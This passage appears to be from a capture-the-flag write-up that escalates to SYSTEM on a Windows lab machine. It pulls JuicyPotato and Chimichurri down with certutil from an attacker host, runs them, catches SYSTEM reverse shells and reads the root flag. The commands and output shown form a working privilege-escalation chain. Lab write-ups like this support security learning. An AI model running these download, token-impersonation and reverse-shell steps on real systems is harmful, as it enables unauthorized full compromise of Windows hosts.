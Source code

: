 ```powershell
```

```powershell
PS C:\windows\temp> certutil -urlcache -f http://10.10.14.21/JuicyPotato.exe /windows/temp/jp.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

```console
PS C:\windows\temp> ./jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\temp\x.exe -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

```console
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.93] 49176
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) Microsoft Corporation. All rights reserved.

whoami
nt authority\system
PS C:\Windows\system32> cd /users/administrator/desktop
PS C:\users\administrator\desktop> ls

    Directory: C:\users\administrator\desktop

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-ar--         9/26/2024  11:45 PM         34 root.txt

PS C:\users\administrator\desktop> cat root.txt
f56107...
```

`Chimichurri.exe` also works:

```powershell
PS C:\windows\temp> certutil -urlcache -f http://10.10.14.21/Chimichurri.exe /windows/temp/chimi.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\windows\temp> ./chimi.exe 10.10.14.21 443
```

```powershell
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.93] 49180
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\windows\temp>whoami
whoami
nt authority\system
```
